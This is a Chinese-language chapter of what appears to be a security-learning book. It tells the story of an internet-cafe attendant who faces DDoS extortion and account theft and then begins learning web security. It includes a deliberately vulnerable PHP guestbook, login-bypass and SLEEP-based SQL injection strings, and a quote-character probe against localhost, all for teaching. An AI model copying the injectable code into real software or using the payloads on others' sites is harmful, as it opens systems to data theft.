










# 第119章 网吧网管到Web渗透大神（上）

> **难度等级：⭐ 开胃菜**
>
> **预计阅读时间：150分钟**
>
> **本章看点：草根逆袭、网吧网管、SRC挖洞、SQL注入、成长心路**
>
> ::: tip 说明
> 本章基于真实事件改编。为了保护当事人隐私，所有人物姓名、地点、具体时间都已做脱敏处理。但成长经历、技术细节、心路历程，都是真实的。
>
> 看完这一章，你会明白：
> - 学历不代表能力，草根也能逆袭
> - 兴趣是最好的老师
> - 挖SRC是普通人进入安全行业的捷径
> - 坚持比天赋更重要
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是爽文，这是一个真实的草根逆袭故事。

主角叫阿强，初中毕业，在县城网吧当网管，每天的工作就是给客人开卡、泡方便面、重启电脑。

就是这样一个对电脑一窍不通的人，因为网吧频繁被黑客攻击，被逼着学网络安全，最后靠挖SRC（漏洞盒子/补天）逆袭成Web渗透大神，年薪50万。

他的故事告诉我们：
- **起点低不可怕，可怕的是不敢开始**
- **学历不代表学习能力**
- **网络安全这个行业，真的可以靠技术改变命运**
- **只要你肯努力，什么时候都不晚**
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 一个网吧网管的真实日常是什么样的
- [x] 网吧常见的网络攻击有哪些（DDoS、盗号等）
- [x] 零基础学网络安全应该从哪里开始
- [x] SQL注入的基本原理和手工注入方法
- [x] Burp Suite的基本使用方法
- [x] SRC平台是什么，怎么提交漏洞
- [x] 第一次挖漏洞被拒绝怎么办
- [x] 普通人怎么通过挖SRC进入安全行业

---

## 🏠 背景：县城网吧里的网管阿强

### 1.1 阿强是谁？

阿强，1995年出生在南方某省的一个小县城。

父母都是普通工人，家里条件一般。阿强从小就不是读书的料，初中毕业就不想念了，说什么都要出去打工。

父母拗不过他，就让他跟着亲戚去了广东的电子厂。干了两年，阿强觉得太苦了，每天在流水线上站12个小时，挣的钱还不够花。

后来阿强回到县城，找了份网吧网管的工作。

> 📌 **为什么选择当网管？**
> 阿强自己说："当网管好啊，每天能免费上网，还能玩游戏，工资虽然不高，但够花了。"

那是2014年，阿强19岁。

**阿强的基本信息：**
```
👤 阿强
- 年龄：19岁（2014年）
- 学历：初中毕业
- 职业：网吧网管
- 月薪：1800块
- 爱好：玩游戏（LOL、CF、DNF）
- 电脑水平：会开机、会上网、会装游戏、会重启
- 梦想：当一辈子网管，天天免费玩游戏
```

你可能会说，就这水平，后来能成Web渗透大神？

别急，继续往下看。

### 1.2 网吧网管的日常

让我们看看阿强当网管的一天是怎么过的。

**阿强的一天：**
```
🌅 早上8:00
- 起床，洗漱，去网吧
- 跟夜班网管交接班
- 检查网吧机器有没有坏的
- 打扫卫生，擦桌子，拖地

🌞 上午9:00 - 12:00
- 人不多，坐在吧台玩游戏
- 偶尔有人来开卡，收钱、开卡
- 有人喊"网管，这台机器死机了" → 过去重启
- 有人喊"网管，这游戏怎么打不开" → 过去看看，不行就重启

🍜 中午12:00 - 14:00
- 吃午饭（网吧旁边的小饭馆，10块钱一份）
- 轮班休息，趴在吧台睡一会儿

🌆 下午14:00 - 18:00
- 人慢慢多起来了
- 各种问题：
  * "网管，充20块钱"
  * "网管，来瓶可乐"
  * "网管，这耳机没声音" → 看看插好没，不行就换
  * "网管，这键盘坏了" → 换键盘
  * "网管，我QQ号被盗了怎么办" → 不知道，让他找腾讯客服

🌃 晚上18:00 - 22:00
- 高峰期，人最多的时候
- 忙得脚不沾地
- 卖泡面、卖零食、卖饮料
- 各种机器问题，各种喊网管

🌙 晚上22:00 - 第二天8:00（夜班）
- 人少了，但不能睡
- 通宵的人比较固定
- 大部分时间在玩游戏
- 凌晨3、4点实在困了，就眯一会儿
```

**图119-1 网吧网管日常工作流程图**



> 😂 **阿强的万能解决办法**：
> 90%的问题，重启一下就好了。
> 剩下10%的问题，换台机器就好了。
> 再不行，就让他找客服，反正跟网吧没关系。

那时候的阿强，觉得这样的日子挺好的。

每天能免费玩游戏，工资够花，还有一群一起打游戏的朋友。

他以为自己会这样当一辈子网管。

直到那一天。

### 1.3 网吧的生意

阿强工作的网吧叫"极速网吧"，在县城中心地段，规模不小。

**极速网吧基本情况：**
```
🖥️ 网吧规模
- 机器数量：120台
- 面积：300多平米
- 位置：县城中心，商业街二楼
- 老板：张哥，40多岁，本地人

💰 收费标准
- 白天（8:00-22:00）：3块钱一小时
- 夜间（22:00-8:00）：15块钱包夜
- 会员充值：充100送50，充200送150
- 临时卡：贵5毛钱

👥 主要客源
- 中学生（偷偷来玩的）
- 无业青年（天天泡网吧的）
- 打工人（下班来玩一会儿）
- 小学生（周末人最多）

🍔 其他收入
- 卖零食、饮料、泡面
- 卖烟
- 打印、复印
- 充话费、充Q币
```

那时候网吧生意还不错，每天能有几千块的营业额。

老板张哥也挺大方，每个月除了工资，还会给阿强发点奖金，逢年过节也有红包。

阿强挺知足的。

---

## 💥 第一次遭遇：网吧被攻击了

### 2.1 那天晚上，网吧全断网了

那是2015年夏天的一个晚上。

大概晚上8点多，正是高峰期，网吧里坐满了人，乌烟瘴气的。

阿强坐在吧台，正在跟人开黑打LOL。

突然，整个网吧的电脑全都掉线了。

"我靠，怎么回事？"
"网断了！"
"网管！怎么没网了！"

一时间，整个网吧炸了锅，所有人都在喊。

阿强也懵了。

他赶紧跑到机房去看，路由器、交换机灯都亮着，好像没什么问题。

他又给运营商打电话，运营商说线路没问题。

折腾了半个多小时，网还是没好。

客人骂骂咧咧地走了一大半，剩下的在那等着。

又过了一个多小时，网终于恢复了。

但是那一晚，网吧损失了不少营业额，老板脸都黑了。

> 🤔 **阿强当时的想法**：
> "可能就是线路故障吧，挺正常的，以前也偶尔断网。"

他没想到，这只是开始。

### 2.2 接二连三的攻击

从那以后，网吧的网就经常断。

有时候是晚上高峰期断，有时候是周末断。

每次断个几十分钟到一两个小时不等。

老板张哥急了，找运营商来查了好几次，都说线路没问题。

后来有人提醒张哥："你这网吧会不会是被人攻击了？"

"攻击？什么攻击？"张哥一脸茫然。

"就是DDoS攻击啊，有人打你流量，把你带宽占满了，自然就断网了。"

张哥和阿强都听不懂，但感觉很厉害的样子。

**图119-2 DDoS攻击原理示意图**



> 🔍 **什么是DDoS攻击？**
> DDoS（分布式拒绝服务攻击），简单说就是：
> - 攻击者控制很多台电脑（僵尸网络）
> - 同时向目标发送大量流量
> - 把目标的带宽占满，把服务器打瘫
> - 正常用户就访问不了了
>
> 就像很多人同时挤到一家店里，把店门堵死，真正的顾客就进不去了。

张哥问："那怎么办？能防住吗？"

那人说："防DDoS挺贵的，你这么个小网吧，犯不上。要不你找找人，看看是谁干的，给点钱私了？"

张哥将信将疑，但也没办法。

### 2.3 有人来"谈生意"了

又过了几天，网吧正在营业，又被打了。

这次断网时间特别长，断了三个多小时。

就在阿强急得团团转的时候，吧台的座机响了。

阿强接起电话："喂，极速网吧。"

电话那头是个沙哑的男声："你们网吧最近网不太好吧？"

阿强心里咯噔一下："你是谁？"

那人笑了笑："我是谁不重要。重要的是，我能让你们网吧不再断网。"

阿强瞬间明白了："是你干的？你想怎么样？"

"别那么紧张嘛。大家都是出来混的，交个朋友。每个月给我500块保护费，我保证你们网吧安安稳稳的。"

"500块？你做梦！"阿强气得够呛。

"年轻人，别那么冲。你想想，你们网吧一晚上营业额多少？断一晚上损失多少？500块钱，买个平安，划算的。"

"我凭什么相信你？"

"你可以不信。那你们就等着天天断网吧。我给你三天时间考虑，想好了打这个电话找我。"

说完，那人就挂了。

阿强赶紧把这事告诉了老板张哥。

张哥听完，气得直拍桌子："他妈的！还敢收保护费？报警！"

然后他们就去派出所报警了。

但是警察说，这种网络犯罪不好查，人大概率在外地，而且金额也不大，只能先登记，让他们自己注意点。

报完警，张哥和阿强心里都没底。

### 2.4 游戏账号集体被盗一波

一波未平，一波又起。

DDoS的事还没解决，网吧又出事了。

那段时间，经常有客人说自己的游戏账号在网吧玩了之后就被盗了。

一开始以为是客人自己点了什么钓鱼网站，或者用了外挂。

但是后来越来越多人说被盗号，而且都是在这个网吧上的号。

有人甚至说，刚充了几百块钱的装备，转头就没了。

张哥头都大了。

"阿强，你赶紧看看，是不是网吧机器里有病毒？"

阿强哪懂这个啊，他只会重启。

但他还是硬着头皮去看了。

他下载了个360，给每台机器都杀毒。

结果真的杀出不少毒来，什么木马、盗号程序，一大堆。

但是杀完之后，还是有人被盗号。

而且更诡异的是，有些机器刚做完系统，没过两天又有毒了。

**图119-3 网吧盗号攻击链示意图**



> 🔍 **盗号木马是怎么工作的？**
> 1. 攻击者把木马种到网吧机器上（可能通过U盘、下载文件、漏洞等方式）
> 2. 玩家登录游戏的时候，木马记录键盘输入（键盘记录器）
> 3. 木马把账号密码发送给攻击者
> 4. 攻击者登录账号，把里面值钱的东西都拿走
> 5. 转手卖掉，赚钱
>
> 网吧是盗号的重灾区，因为人多，而且很多人安全意识差。

那段时间，网吧名声都臭了。

很多人都不敢来这上网了，怕号被盗。

生意一落千丈。

张哥急得满嘴起泡。

### 2.5 阿强的挫败感

那段时间，阿强特别挫败。

以前觉得当网管挺舒服的，每天玩玩游戏就过去了。

现在才发现，自己什么都不会。

网吧被DDoS攻击，他只会站在那干着急。
客人账号被盗，他只会说"你找游戏客服啊"。
机器中毒，他只会用360杀毒，杀完还不管用。

有一次，一个客人因为账号被盗，在吧台闹了半天。

"我号就在你们网吧被盗的！你们得赔我！我那号值好几千块呢！"

阿强跟人吵了半天，最后还是张哥过来赔了点钱才了事。

那天晚上，阿强躺在床上，翻来覆去睡不着。

他想：
"我是不是太没用了？
当了这么多年网管，就会个重启。
真遇到事了，什么都解决不了。
难道我这辈子就这样了？"

> 💔 **阿强的内心独白**：
> "那时候真的挺自卑的。
> 初中毕业，没文化，没技术，除了当网管，不知道自己还能干什么。
> 但是当网管，又当得这么窝囊。
> 人家来攻击我们，我们连是谁都不知道。
> 人家来盗号，我们连怎么防都不会。
> 我就觉得，自己不能再这样下去了。
> 我得学点东西。"

---

## 💪 下定决心：我要学网络安全

### 3.1 张哥找来了"高手"

就在阿强迷茫的时候，张哥不知道从哪找来了一个"高手"。

那人叫老周，30多岁，在市里面的一家电脑公司上班，据说懂网络安全。

张哥花了2000块钱，请老周过来看看。

老周来了之后，在网吧待了一天。

他先看了看网吧的网络架构，又看了看几台有问题的机器。

然后跟张哥说：

"你这网吧，问题不少。
第一，DDoS攻击，这个我帮你想想办法，给你搞个防御方案。
第二，盗号木马，这个根源在于你们系统做得不好，机器没有还原，而且人随便插U盘，很容易中毒。
第三，你们网吧的管理系统有漏洞，别人能随便进来改数据。
这样吧，我给你出个方案，你看看行不行。"

然后老周就吧啦吧啦讲了一堆。

阿强在旁边听着，大部分都听不懂，但觉得老周好厉害。

> 🤩 **阿强当时的想法**：
> "哇，这个人好厉害啊！
> 什么都懂，什么都能解决。
> 我要是能像他一样就好了。"

### 3.2 老周的建议

老周给网吧做了几个改进：

**老周的解决方案：**
```
🛡️ 1. DDoS防御
- 换了个硬防路由器（带简单的DDoS防护功能）
- 联系运营商，开通了基础的DDoS清洗服务（每个月多交几百块）
- 效果：一般的小流量攻击能防住了，大的还是不行，但那种大攻击一般也不会打小网吧

🖥️ 2. 系统加固
- 所有机器重装系统，做了ghost镜像
- 装了还原精灵（重启就还原，不怕中毒了）
- BIOS设密码，禁止U盘启动
- 效果：盗号木马明显少了

🔒 3. 网络安全
- 改了路由器、交换机的默认密码
- 关了一些不用的端口和服务
- 装了个简单的防火墙
- 效果：安全性提高了不少
```

做完这些之后，网吧果然安稳了很多。

DDoS攻击少了，就算有，也能防住大部分。
盗号的也少了，因为机器一重启就还原，木马留不住。

张哥挺高兴，又给老周塞了个红包。

临走的时候，老周跟阿强说：

"小伙子，我看你挺机灵的，对电脑也感兴趣。
你要是想学，我可以教你。
先从基础开始学，慢慢来。
干这行，比你当网管有前途。"

阿强当时就心动了。

### 3.3 阿强决定学安全

那天晚上，阿强想了很久。

他在想：
"我要不要学呢？
我初中毕业，数学英语都不好，能学会吗？
而且学这个得花不少时间吧？
我每天上班已经够累了。"

但是转念又想：
"不学怎么办？
难道当一辈子网管？
再过几年，网吧越来越少，我连网管都当不成了。
趁年轻，学门手艺，总没错。
而且老周愿意教我，多好的机会啊。"

想了一晚上，阿强下定决心：学！

第二天，阿强就给老周打了电话："周哥，我想跟你学，你能教我吗？"

老周笑了："可以啊。但是我得先跟你说清楚，学这个挺苦的，得有耐心，能坐得住。而且你基础差，得从最基础的开始学。你能坚持吗？"

"能！周哥，我肯定能坚持！"

"好，那这样，你先自己看点书，打点基础。我每周六下午有空，你过来找我，我给你讲讲。"

"好！谢谢周哥！"

挂了电话，阿强兴奋得不行。

他觉得，自己的人生可能要不一样了。

**图119-4 阿强的学习路线图（初版）**



> 📌 **老周给阿强的学习建议**：
> 1. 不要急着学"黑客技术"，基础打牢最重要
> 2. 先学计算机基础、网络基础，再学Web安全
> 3. 多动手，光看书没用，一定要实操
> 4. 遇到问题多百度，多思考，不要一上来就问
> 5. 坚持，每天学一点，不要三天打鱼两天晒网

### 3.4 从最基础的开始学

说干就干。

阿强先去书店买了几本书：
- 《计算机基础入门》
- 《计算机网络》
- 《HTML从入门到精通》

然后又在淘宝上买了个二手笔记本电脑，1000多块钱，配置不高，但够学习用。

从此，阿强就开始了白天上班、晚上学习的生活。

**阿强的学习时间表：**
```
🌅 早上8:00 - 晚上10:00
- 上班（没客人的时候就偷偷看书）

🌙 晚上10:00 - 凌晨1:00
- 下班回出租屋，学习3个小时
  * 前半小时：复习昨天的内容
  * 中间2小时：学新东西，实操
  * 最后半小时：总结，记笔记

📅 周六下午
- 去找老周，请教问题，学新东西

📅 周日
- 上午睡觉（补觉）
- 下午学习
- 晚上玩一会儿游戏（放松一下）
```

一开始真的很难。

计算机基础还好，虽然抽象，但多看几遍还能懂。
网络基础就有点懵了，什么IP地址、子网掩码、TCP/IP协议、OSI七层模型... 看得头大。
HTML还好，比较直观，写点代码就能看到效果。

> 😵 **阿强的吐槽**：
> "刚开始学网络的时候，真的想死。
> 什么TCP三次握手、四次挥手，我看了不下十遍才搞明白。
> 子网掩码更是，算来算去算不清楚。
> 那时候真的想放弃，觉得自己不是这块料。
> 但是一想到网吧被攻击的时候那种无能为力的感觉，又咬牙坚持下来了。"

### 3.5 第一个小成就：自己搭了个网站

学了大概两个月HTML之后，老周让阿强试着自己搭个网站。

"你去下个PHPStudy，在本地搭个环境，然后写个简单的网站，比如留言板什么的。"

阿强就去研究了。

PHPStudy是什么？怎么搭环境？PHP是什么？MySQL是什么？
一堆问题。

阿强就百度，一个一个查。

折腾了好几天，终于在本地把环境搭起来了。

然后又跟着教程，写了个简单的留言板。

就是那种：
- 有人可以留言
- 留言存在数据库里
- 打开页面能看到所有留言

虽然很简陋，但是阿强特别有成就感。

> 🥳 **阿强的心情**：
> "当我第一次在浏览器里打开自己写的留言板，
> 输入一条留言，提交，然后页面上真的显示出来的时候，
> 我真的太开心了！
> 那种感觉，比在游戏里五杀还爽。
> 我觉得，我好像真的能学会。"

**第一个留言板的代码（简化版）：**
```html
<!-- index.html 留言板主页面 -->
<html>
<head>
    <title>我的第一个留言板</title>
</head>
<body>
    <h1>欢迎来到我的留言板</h1>
    
    <!-- 留言表单 -->
    <form action="submit.php" method="post">
        昵称：<input type="text" name="username"><br>
        留言：<textarea name="content"></textarea><br>
        <input type="submit" value="提交留言">
    </form>
    
    <hr>
    
    <h2>所有留言：</h2>
    <?php
    // 连接数据库
    $conn = mysql_connect('localhost', 'root', 'root');
    mysql_select_db('test', $conn);
    
    // 查询留言
    $result = mysql_query("SELECT * FROM messages");
    
    // 显示留言
    while($row = mysql_fetch_array($result)) {
        echo "<p><strong>" . $row['username'] . "</strong>：" . $row['content'] . "</p>";
    }
    ?>
</body>
</html>
```

```php
// submit.php 处理留言提交
<?php
$username = $_POST['username'];
$content = $_POST['content'];

// 连接数据库
$conn = mysql_connect('localhost', 'root', 'root');
mysql_select_db('test', $conn);

// 插入留言
$sql = "INSERT INTO messages (username, content) VALUES ('$username', '$content')";
mysql_query($sql);

// 跳回首页
header("Location: index.html");
?>
```

> ⚠️ **注意**：这段代码是有SQL注入漏洞的！因为直接把用户输入拼接到SQL语句里了。
> 当时的阿强还不知道这些，他只是觉得能跑起来就很厉害了。
> 后面我们会讲，这个漏洞怎么被发现、怎么利用。

就是这么一个简单的留言板，给了阿强莫大的信心。

他觉得，自己好像真的在进步。

---

## 🔍 第一次挖漏洞：SQL注入初体验

### 4.1 学习Web安全

学了几个月基础之后，老周开始教阿强Web安全了。

"阿强，基础学得差不多了，今天开始教你点'真东西'。"

"什么真东西？"阿强眼睛一亮。

"Web漏洞。先从最经典的SQL注入开始讲。"

然后老周就给阿强讲SQL注入的原理。

"你看啊，你之前写的那个留言板，用户输入的内容直接拼到SQL语句里了，对吧？"

"对啊。"

"那如果用户输入的不是正常的内容，而是一段SQL代码呢？"

"啊？那会怎么样？"

"那数据库就会执行这段SQL代码。这就叫SQL注入。"

然后老周举了个例子。

比如登录框：
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

如果用户输入的用户名是 `' OR '1'='1`，那SQL语句就变成了：
```sql
SELECT * FROM users WHERE username='' OR '1'='1' AND password='$password'
```

这样就能绕过登录，不需要密码就能进去。

阿强听得目瞪口呆。

"还能这样？！"

"对啊，这就是SQL注入。厉害吧？"

"太厉害了！那...这个违法吗？"阿强有点担心。

老周笑了："你在自己的机器上测试，当然不违法。但是你要是去搞别人的网站，那就是违法的。记住，我们学这个是为了防御，不是为了攻击。"

"嗯嗯，我记住了。"

**图119-5 SQL注入原理示意图**

```mermaid
flowchart TD
    User[用户输入] --> Input[输入框\nid=1]
    Input --> Code[后端代码\n$sql = "SELECT * FROM users WHERE id = $id"]
    Code --> DB[MySQL数据库]
    DB --> Result[返回结果]
    
    User2[攻击者输入] --> Input2[输入框\nid=1 AND SLEEP(5)]
    Input2 --> Code2[后端代码\n$sql = "SELECT * FROM users WHERE id = 1 AND SLEEP(5)"]
    Code2 --> DB2[MySQL数据库]
    DB2 -->|执行了恶意SQL| Result2[异常结果\n数据库被攻击]
```

> 🔍 **什么是SQL注入？**
> SQL注入是一种代码注入技术，攻击者通过在应用程序的输入中插入恶意的SQL代码，从而操纵后端数据库执行未授权的操作。
>
> 简单说就是：
> - 开发者没有对用户输入进行过滤
> - 攻击者把SQL命令藏在输入内容里
> - 数据库执行了这些恶意SQL
> - 数据就泄露了，甚至服务器都可能被控制
>
> SQL注入是Web漏洞里的"老大哥"，存在了几十年，到现在还是很常见。

### 4.2 在自己的留言板上试验

讲完原理，老周让阿强在自己的留言板上试试。

"你那个留言板，应该到处都是注入点。你回去试试，看能不能注进去。"

阿强回去之后，就开始折腾。

他先在留言板的URL后面加了个单引号：
```
http://localhost/msg/index.php?id=1'
```

页面报错了！

```
Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in ...
```
